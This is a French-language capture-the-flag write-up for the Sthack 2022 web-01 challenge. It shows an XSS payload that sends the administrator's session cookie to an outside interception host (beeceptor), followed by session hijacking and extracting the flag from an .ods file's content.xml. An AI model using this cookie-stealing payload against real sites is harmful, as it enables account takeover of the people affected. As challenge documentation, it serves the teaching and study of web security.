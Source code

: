 ```yaml
---
layout: post
title: Web 01
category: Sthack-2022
---
```


## Challenge web-01

Pour ce premier challenge de la Sthack 2022, nous accédons à un site qui nous indique que nous ne sommes pas administrateur de celui-ci et sur lequel nous pouvons poser une question à l'administrateur du site au travers d'un message.

![sthack_01](/assets/img/sthack2022/web01/sthack_01.png)

En analysant l'application, nous constatons que le cookie de session `PHPSESSID` ne possède pas l'attribut `HttpOnly`.

![sthack_cookie](/assets/img/sthack2022/web01/sthack_cookie.png)

Le fait qu'on puisse envoyer un message à l'administrateur du site et que le cookie de session ne possède pas l'attribut `HttpOnly` nous fait donc supposer que le but du challenge est de récupérer le cookie de l'administrateur en exploitant une vulnérabilité XSS sur le formulaire d'envoi de questions. 

Après de multiples tentatives d'injections XSS, nous observons que la charge utile suivante fonctionne.

```html
"><img src=x onerror="javascript:alert(1)"></img>
```

Celle-ci déclenche le code JavaScript contenu dans l'attribut `onerror`. Nous la modifions pour qu'une redirection soit effectuée vers un site qui intercepte l'ensemble des requêtes qui lui sont envoyées. Le message suivant est alors envoyé à l'administrateur du site pour qu'il soit lu par ce dernier.

```html
"><img src=x onerror="javascript:document.location='https://sthack2022.free.beeceptor.com?c='+document.cookie"></img>
```

Après que le message contenant la charge utile ait été envoyé, nous consultons notre intercepteur. Nous retrouvons alors le cookie de l'administrateur. 

![sthack_beeceptor](/assets/img/sthack2022/web01/sthack_beeceptor.png)

Une fois le cookie de l'administrateur récupéré, nous l'utilisons à la place du nôtre. En actualisant la page, un message nous indique que nous sommes désormais identifiés comme admin !

![sthack_admin](/assets/img/sthack2022/web01/sthack_admin.png)

Sur la page, en plus du nouveau texte spécifique à l'administrateur, nous notons la présence du bouton *Download File*. Nous cliquons sur celui-ci et obtenons le fichier *retrocomissions.ods* qui est un classeur.

![sthack_ods](/assets/img/sthack2022/web01/sthack_ods.png)

En ouvrant le classeur, nous constatons la présence d'une case contenant le mot  `FLAG`.

Toutefois, la deuxième colonne est vide pour l'ensemble des noms. Un fichier *.ods* pouvant être considéré comme une archive, nous décidons de l'ouvrir avec notre gestionnaire d'archives. 

![sthack_archive](/assets/img/sthack2022/web01/sthack_archive.png)

Le fichier *content.xml* est le fichier principal qui permet de stocker les données affichées dans le classeur, nous décidons de l'ouvrir. À partir d'une recherche sur le mot *FLAG*, nous observons qu'une cellule supplémentaire est disponible.

![sthack_flag_ods](/assets/img/sthack2022/web01/sthack_flag_ods.png)

Nous retrouvons ainsi le flag de cette épreuve : `xss&httpONLY+WTF`.
